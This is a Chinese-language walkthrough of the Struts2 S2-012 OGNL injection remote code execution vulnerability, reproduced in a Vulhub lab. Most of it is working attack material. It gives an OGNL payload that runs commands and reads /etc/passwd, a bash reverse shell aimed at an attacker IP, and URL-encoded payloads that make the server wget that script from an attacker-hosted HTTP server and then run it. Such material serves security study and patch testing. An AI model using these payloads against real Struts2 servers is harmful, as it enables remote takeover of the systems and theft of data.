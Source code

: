 # Struts2 S2-012 远程代码执行漏洞

## 漏洞描述

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

漏洞详情:

- http://struts.apache.org/docs/s2-012.html

## 影响版本

影响版本: 2.1.0 - 2.3.13

## 环境搭建

Vulhub执行以下命令启动s2-012测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-vps-ip:8080/index.jsp`即可进入上传表单页面。

## 漏洞复现

可以直接祭出s2-001中的回显POC，因为这里是没有沙盒，也没有限制任何特殊字符。

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：

![image-20220301173613307](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011736450.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22wget%22%2C+%22192.168.174.128%2Fshell.sh%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22bash%22%2C+%22%2Fusr%2Flocal%2Ftomcat%2Fshell.sh%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D
```

成功接收反弹shell：

![image-20220301173937416](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011739511.png)